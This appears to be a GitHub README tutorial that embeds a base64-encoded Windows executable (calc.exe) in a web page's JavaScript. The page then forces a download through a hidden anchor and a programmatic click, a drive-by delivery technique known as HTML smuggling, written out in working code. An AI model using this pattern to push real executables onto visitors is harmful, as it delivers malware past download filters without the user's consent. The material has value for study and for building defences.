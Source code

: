 # INSTANT File Downloads Using JavaScript:
## Instantly download a file from your web page into the users computer Using a JavaScript Script.
<br />
<br />

## For this demonstration I'm going to use Windows for the System and The Calculator app located at 'C:\Windows\System32\calc.exe'


---

# Steps
* Get The Content of Calc.exe in Powershell by running 
```powershell
(Get-Content C:\Windows\System32\calc.exe)
```
this will output a bunch of data representing Calc.exe

* Run The following Command to Base64 encode the output.
```powershell
$base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Windows\System32\calc.exe'))
```
this will Encode the data into Base64 String making it easier to work with.

* Now to Output the $base64string variable we need to put it in a file run the following command to write the data into a file
```powershell
$base64string | Out-File TempData.log
```
* now open the file up in your favorite code editor or just use notepad by running the command:
```powershell
notepad.exe TempData.log
```
* Copy the Whole Data and paste it in the [script.js](script.js) Variable named 'filedata'


## After copying the base64 encoded data into that variable now we can start to code the whole script.js file
* first of we're going to create a function to convert the base64 data into Bytes
```js
function base64tobytes(base64data){
    var binaryValues = atob(base64data);
    var binaryLength = binaryValues.length
    var bytesData = new Uint8Array(binaryLength);

    for ( var i = 0; i < binaryLength; i++){
        bytesData[i] = binaryValues.charCodeAt(i);
    }

    return bytesData.buffer;
}
```
i'm not gonna get into this much because it's basic js and im just using built-in Library in JavaScript and There's a lot of documentations online for these.

---

* Now we're going to pass the data into the function
```js
var fileBytes = base64tobytes(filedata); 
```

* now we're going to defind a new Blob it has to be a new Blob because this is a object.
```js
var blob = new Blob([fileBytes], {"type":"octet/stream"});
```
* now we have to force the user into downloading, we can do that by creating an html anchor tag.
```js
var anchor = document.createElement("a");
document.body.append(anchor);
// we can hide the anchor by using some basic CSS
anchor.style = "display: None;"
```
* now the important part, we need to create a url that reach out for the blob we created earlier.
```js
var url = window.URL.createObjectURL(blob);
anchor.href = url;
```
* and finally we want to force that to download, we can do it by simply putting:
```js
anchor.download = filename;
```
* now we do need to force and click on that a tag HTML element.
```js
anchor.click();
```
* If you want to remove after the download put this in your code.
```js
window.URL.revokeObjectURL(url);
```
Now you can check that calc.exe is working fine with all of it's funcationality.
# **for educational purposes Only!**
